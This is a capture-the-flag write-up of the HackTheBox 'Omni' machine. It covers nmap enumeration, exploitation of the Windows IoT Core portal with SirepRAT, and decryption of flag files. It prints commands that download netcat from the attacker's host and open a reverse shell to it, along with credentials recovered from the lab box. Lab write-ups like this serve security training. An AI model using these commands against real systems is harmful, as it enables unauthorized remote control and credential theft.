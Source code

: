 ```yaml
---
title: HackTheBox Omni Writeup
published: false
---
```


![logo](https://i.ibb.co/WsG6YNc/logo.png)

# []()Methodology

* Service Enumeration.
* Windows IoT core Exploitation.
* Privilege Escalation.

# []()Nmap Scan

> **as always, i’ll do nmap scan to find out which services running in this machine.**

* 135/tcp --> Microsoft Windows RPC
* 8080/tcp --> Microsoft IIS httpd

> **nmap -sC -sV -Pn -oN scan.txt 10.10.10.204**

```ruby

Nmap scan report for 10.10.10.204
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8080/tcp open  upnp    Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

> **let's check the web service first.**

# []()Checking Web Service

![web-page](https://i.ibb.co/zRpFnrg/web-service.png)

> **i tried to ByPass the authentication by many ways but i failed, so let's dig more.**

# []()Windows IOT Core Exploitation.

> **from the nmap scan we know from the port 8080 that this is a windows device portal, so let's search for any exploits.**

![google-search](https://i.ibb.co/K6ds03Z/google-search.png)

* coole, let's read this [article](https://www.zdnet.com/article/new-exploit-lets-attackers-take-control-of-windows-iot-core-devices/) first.

> **from the article i understand that this is a RCE, so we will execute command on the server as we like.**

![](https://i.ibb.co/xGQSXq2/rce.png)

> **first let's download this [repo](https://github.com/SafeBreach-Labs/SirepRAT.git)**

> **after downloading this repo, let's make some noise now.**

> **first i will execute a command to upload the nc to Omni server, then i will execute another command to get reverse shell.**

* **let's go**

1. **let's upload nc to the machine.**

> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -OutFile C:\Windows\System32\spool\drivers\color\nc64.exe -Uri http://10.10.16.4:8000/nc64.exe" --v

![](https://i.ibb.co/HXJB1z6/upload-nc.png)

2. **let's get a reverse shell**

> python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.16.4 9002 -e powershell.exe" --v

![](https://i.ibb.co/hVQSkX7/reverse-shell.png)

* **we got reverse shell as a system but this is a tricky part, we can't read user or root flag, so let's dig more.**

> in this PATH **C:\Program Files\WindowsPowerShell\Modules\PackageManagement** i've found a bat file which contain a credentials for user and administrator.

![credentials](https://i.ibb.co/fMkFjWn/creds.png)

```ruby

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

```

> **let's login to the web appliaction now with user credentials.**

![proccess](https://i.ibb.co/vPtR6RM/app-pcs.png)

> **there is a Proccesses tap and we can run commands from it**.

> **let's get a reverse shell now.**

![](https://i.ibb.co/6tqrHhs/app-whoami.png)

> **let's check our user.txt**

![](https://i.ibb.co/vh36BgH/user.png)

> **this file encrypted by PSCredential** so we need to decrypt it.

* **follow this [blog](https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/exporting-and-importing-credentials-in-powershell)**.

> **$userflag = Import-Clixml -path user.txt**

> **$userflag.getnetworkcredential().password**

![](https://i.ibb.co/FWgKNYv/user-flag.png)

* **user flag done.**

# []()Privilege Escalation

> **open the web appliaction and login with administrator credentials and do the same steps.**

> **$adminflag = Import-Clixml -pat root.txt**

> **$adminflag.getnetworkcredential().password**

![](https://i.ibb.co/HTJBJGY/adminflag.png)

* cheers!

> **Thanks for reading.**

 <script src="https://www.hackthebox.eu/badge/103789"></script>


